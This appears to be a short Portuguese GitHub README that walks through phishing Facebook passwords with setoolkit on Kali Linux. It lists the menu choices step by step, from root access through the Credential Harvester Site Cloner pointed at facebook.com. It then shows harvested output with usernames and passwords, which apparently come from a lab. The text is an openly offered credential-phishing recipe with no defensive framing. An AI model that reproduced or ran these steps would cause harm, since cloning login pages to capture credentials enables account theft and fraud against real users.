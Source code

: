 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Resutados



[*] Credential Harvester Started...
[*] Listening on 0.0.0.0:80
[*] Cloned the website: http://192.168.1.101/login.php
[*] Waiting for credentials, press [ctrl+c] to exit...

[*] WE GOT A HIT! Printing the output:
-----------------------------------------------
[!] HTTP Request Received:
DATE/TIME: 2025-04-18 16:35:02
IP: 192.168.1.102
-----------------------------------------------
USERNAME: admin
PASSWORD: dvwapass123
-----------------------------------------------

[*] WE GOT A HIT! Printing the output:
-----------------------------------------------
[!] HTTP Request Received:
DATE/TIME: 2025-04-18 16:37:49
IP: 192.168.1.102
-----------------------------------------------
USERNAME: testuser
PASSWORD: qwerty123
-----------------------------------------------
